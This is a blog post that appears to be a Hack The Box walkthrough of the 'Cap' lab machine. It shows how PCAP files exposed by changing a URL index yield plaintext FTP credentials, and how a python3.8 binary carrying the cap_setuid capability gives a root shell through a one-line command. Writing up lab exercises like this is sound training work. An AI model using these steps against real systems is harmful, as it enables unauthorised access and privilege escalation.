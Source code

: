 ```yaml
---
layout: post
title: "HTB - Cap"
author: "joelczk"
tags: HTB
excerpt_separator: <!--more-->
---
```


I've just completed CAP from HTB! In my opinion, CAP is a rather easy and straight forward box that can be completed fairly quickly (If you know what to look for!). Here's a quick writeup on how I solved this box.

<!--more-->

## HTB - Cap
**Box** : Cap\
**IP Address** : 10.10.10.245\
**Operating System** : Linux

## Remarks

- Learn how to use filter out information using wireshark! 
- `setuid` is KING! ENOUGH SAID :-)

### Enumeration
As usual we will run our good ol' Nmap to identify the services and the OS operating behind each ports. For this box, it is fairly straight forward with only 3 open ports - `21`, `22` and `8081`

Since ports `21` and `22` are ports belonging to FTP and SSH servers respectively, I will start off with the webserver first. 

The website is a fairly simple website that looks like a security dashboard belonging to a user named `Nathan`. The `IP Config` and `Network Status` does not contain any fascinating information that catches my eye, however the `security snapshot` does allow me to download a PCAP file. Furthurmore, I've noticed that I am able to download a few PCAP files by modifying the URLs from `/data/0` to `/data/1`....

![Security Snapshots](../assets/cap/securitysnapshot.png)

We will then proceed to view the PCAP files that we have downloaded. Most of the PCAP files do not contain any interesting information, but the PCAP file downloaded from `http://10.10.10.245/data/0` does contain some interesting information

Initally, I focused on looking at the HTTP packets from wireshark to find exploitable information, but it turns out that the information is hidden in FTP protocol and the credentials are being exchanged in PLAINTEXT!!!
![FTP wireshark packets](../assets/cap/ftp.png)

### Obtaining user flag
Now we will just login to the FTP server using the credentials obtained earlier and download the `user.txt` file to our local server.

```bash    
┌──(kali㉿kali)-[~]
└─$ ftp 10.10.10.245                                                     1 ⚙
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:kali): nathan
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 1001     1001         4096 May 27 09:16 .
drwxr-xr-x    3 0        0            4096 May 23 19:17 ..
lrwxrwxrwx    1 0        0               9 May 15 21:40 .bash_history -> /dev/null
-rw-r--r--    1 1001     1001          220 Feb 25  2020 .bash_logout
-rw-r--r--    1 1001     1001         3771 Feb 25  2020 .bashrc
drwx------    2 1001     1001         4096 May 23 19:17 .cache
-rw-r--r--    1 1001     1001          807 Feb 25  2020 .profile
lrwxrwxrwx    1 0        0               9 May 27 09:16 .viminfo -> /dev/null
-r--------    1 1001     1001           33 Aug 08 10:24 user.txt
226 Directory send OK.
ftp> get user.txt
local: user.txt remote: user.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for user.txt (33 bytes).
226 Transfer complete.
33 bytes received in 0.00 secs (298.3941 kB/s)
ftp>
```

### Obtaining the system/root flag
Remembering that we still have an SSH server, let's try to SSH into the server, in hopes that we can somehow obtain root privileges by just logging in. Unfortunately, reality strikes us hard (NOTHING NEW! LIFE GOES ON)

So what's next? First, I decided to look for executables or programs in that can run `root` permissions without passwords using `sudo -l` but again, to no avail.

```bash
──(kali㉿kali)-[~]
└─$ ssh nathan@10.10.10.245                                              2 ⚙
nathan@10.10.10.245's password: 
nathan@cap:~$ sudo -l
[sudo] password for nathan: 
Sorry, user nathan may not run sudo on cap.
```

As they always say, Third Time's the charm! On my third attempt, I've decided to search for sudo permissions and SUID binaries that could possibly help us escalate privileges and obtain root shells. This time, I've hit jackpot!

```bash
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
nathan@cap:~$ 
```

Here, we noticed that `python3.8` actually has a `setuid` command that can allow us to escalate to UID 0 and obtain the root shell. From there, we will be able to obtain the system/root flag.

```bash
nathan@cap:~$ python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@cap:~# cd /root
root@cap:/root# cat root.txt
```